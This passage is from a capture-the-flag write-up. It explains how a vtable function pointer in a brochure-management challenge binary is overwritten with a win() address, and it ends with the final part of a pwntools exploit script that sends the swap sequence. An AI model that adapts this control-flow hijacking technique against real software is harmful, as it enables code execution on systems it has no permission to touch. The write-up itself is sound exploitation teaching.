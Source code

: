 Finally, in order to call `win()`, we want to overwrite a vtable function pointer with the `win()` address via the swap brochure function. We can do this by placing the `win()` address in the metadata block using the library name and motto and then swapping it with a vtable function pointer.

### Last part of solution script
```py 
p.sendlineafter(b"option:", b"7")
p.sendlineafter(b"option:", b"5")

# put win address in library name and motto
p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"characters): ", b"a")
p.sendlineafter(b"characters): ", p64(win)[::-1] + b"\xde\xad") # marker to find brochure id for win address more easily

# now we want to find library index
p.sendlineafter(b"choice:", b"5")
p.sendlineafter(b"option:", b"2")
p.sendlineafter(b"edit:", b"1")
p.sendlineafter(b"option:", b"5")

# hacky way to look for our win address
while True:
    leek = p.recvline()
    if b"\xde\xad" in leek:
        id_2 = int(leek.split()[1][:-2]) - 1
        break

print(id_1, id_2) # brochure ids to swap

p.sendlineafter(b"option:", b"4")
p.sendlineafter(b"swap", str(id_1).encode())
p.sendlineafter(b"swap", str(id_2).encode())

# call win address as it is now swapped with the function ptr of add brochure
p.sendlineafter(b"option:", b"7")
p.sendlineafter(b"option:", b"5")
p.sendlineafter(b"choice:", b"5")
p.sendlineafter(b"option:", b"1")
p.sendlineafter(b"characters)", b"a")
p.sendlineafter(b"option:", b"2")
p.sendlineafter(b"edit", b"1")
p.sendlineafter(b"option:", b"2")

p.interactive()
```
After running my script a couple of times, we get the flag :D